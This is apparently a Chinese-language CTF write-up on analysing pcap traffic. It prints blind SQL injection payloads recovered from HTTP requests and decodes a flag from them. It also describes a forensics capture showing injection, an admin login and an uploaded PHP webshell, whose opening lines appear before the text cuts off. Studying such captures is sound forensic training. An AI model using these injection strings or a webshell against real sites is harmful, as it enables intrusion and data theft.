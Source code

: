 ## 流量分析（.pacp）题

### # 0x03 SQL注入攻击

- [timu.pcapng](https://github.com/Bin4xin/bigger-than-bigger/tree/master/CTF/MISC/timu.pcapng)

打开显示为注入payload`id=1' and ascii(substr((select flag from t),1,1))=33--`，是使用二分法判断SQL语句执行对应的Ascii字符是否相等：

![hup13CgkwsoTVRa.png](https://image.yjs2635.xyz/images/2022/02/20/hup13CgkwsoTVRa.png)

所以直接来看一下返回包的页面是否有不同的地方：`Analyze->Follow->TCP/HTTP Stream`

![mgI9SUcGn4OLPTu.png](https://image.yjs2635.xyz/images/2022/02/20/mgI9SUcGn4OLPTu.png)

两边不同显示：左边为错误Ascii，右边为正确的Ascii，按照顺序`(substr((select flag from t),1,1)->(n,1)`得到：

```bash
GET /ctf/Less-5/?id=1' and ascii(substr((select flag from t),1,1))=102--  HTTP/1.1
GET /ctf/Less-5/?id=1' and ascii(substr((select flag from t),2,1))=108--  HTTP/1.1
GET /ctf/Less-5/?id=1' and ascii(substr((select flag from t),3,1))=97--  HTTP/1.1
GET /ctf/Less-5/?id=1' and ascii(substr((select flag from t),4,1))=103--  HTTP/1.1
···
```

查一下[Ascii字母表](https://blog.csdn.net/Lucky_bo/article/details/52247939)

得到flag：

```bash
102 108 97 103 123 119 49 114 101 115 104 65 82 75 95 101 122 95 49 115 110 116 105 116 125

#-> flag{w1reshARK_ez_1snt}
```

### # 0x04 [...]usb流量分析

[...]

### # 0x05 取证/攻击行为

- 无题目描述；给出的是一份流量文件：[backdoor.pcapng](https://github.com/Bin4xin/bigger-than-bigger/blob/master/CTF/MISC/backdoor/backdoor.pcapng)

打开一看映入眼帘的是一系列SQL注入的payload：

- `File -> Export Objects -> HTTP`

![yPQAJtCO2LIVT8W.png](https://image.yjs2635.xyz/images/2022/02/20/yPQAJtCO2LIVT8W.png)

导出几个出来看看，得到一些数据库的信息：

![j7mBCryiQ1SONfh.png](https://image.yjs2635.xyz/images/2022/02/20/j7mBCryiQ1SONfh.png)

往下就是`Login.php POST包`登录成功的信息：
```bash
POST /login.php HTTP/1.1
···
username=admin&password=mysql&button=SIGN-IN
HTTP/1.1 302 Found
Location: ./admin/index.php
```
接着往下，获取到了一些有用的信息，流量显示`Upload.php`Post上传成功了一个php马：
```php
<?php
    session_start();
    @set_time_limit(0);
	@error_reporting(0);
    function E($D,$K){
```